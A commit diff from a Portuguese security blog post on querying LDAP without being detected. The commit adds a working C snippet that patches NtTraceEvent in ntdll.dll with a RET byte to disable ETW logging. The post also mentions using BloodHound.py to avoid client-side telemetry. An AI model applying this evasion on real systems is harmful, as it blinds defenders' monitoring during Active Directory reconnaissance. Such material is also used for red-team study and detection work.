

Before and after one commit to kaIIsyms/kaIIsyms.github.io, a Jekyll site: the page built from _posts/2024-12-29-fazendo-consultas-no-ldap-sem-ser-detectado.md, in a window 1280 px wide and 900 px high, scrolled down 1090 px. Shown: the top 739 px of the window, without its empty margins (244-1036 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
from hackmd

````diff
--- a/_posts/2024-12-29-fazendo-consultas-no-ldap-sem-ser-detectado.md
+++ b/_posts/2024-12-29-fazendo-consultas-no-ldap-sem-ser-detectado.md
@@ -2,6 +2,7 @@
 title: 'Fazendo consultas no LDAP sem ser detectado'
 disqus: hackmd
 ---
+
 
 Fazendo consultas no LDAP sem ser detectado
 ===
@@ -30,7 +31,15 @@
 ---
 - E pode fazer uma auditoria do LDAP habilitando o `Microsoft-Windows-ActiveDirectory_DomainService` no Event Viewer.
 ## Executando consultas sem ser detectado
-- O primeiro método que eu vou apresentar, contra o provedor `Microsoft-Windows-LDAP-Client`, vai ser patchear o ETW (no nosso caso user-mode), sim, isso mesmo. A ideia é localizar o memory address de uma função especifica do provedor q vc queira patchear (`EtwEventWrite`, `NtTraceEvent`, etc...), e adicionar uma instrução específica.
+- O primeiro método vai ser patchear o ETW.
+  - A ideia é calcular o offset da syscall q vc queira patchear (`NtTraceEvent`, `EtwEventWrite`, etc...) em uma dll (`ntdll.dll`) e depois adicionar uma instrução RET (`0xC3`)
+```c
+DWORD dwOld = 0;
+FARPROC ptrNtTraceEvent = GetProcAddress(LoadLibrary("ntdll.dll"), "NtTraceEvent");
+VirtualProtect(ptrNtTraceEvent, 1, PAGE_EXECUTE_READWRITE, &dwOld);
+memcpy(ptrNtTraceEvent, "\xc3", 1);
+VirtualProtect(ptrNtTraceEvent, 1, dwOld, &dwOld);
+```
 
 - O segundo método contra o `Microsoft-Windows-LDAP-Client` é usar uma tool como o [BloodHound.py](https://github.com/dirkjanm/BloodHound.py), que não usa a `wldap32.dll`
 
````
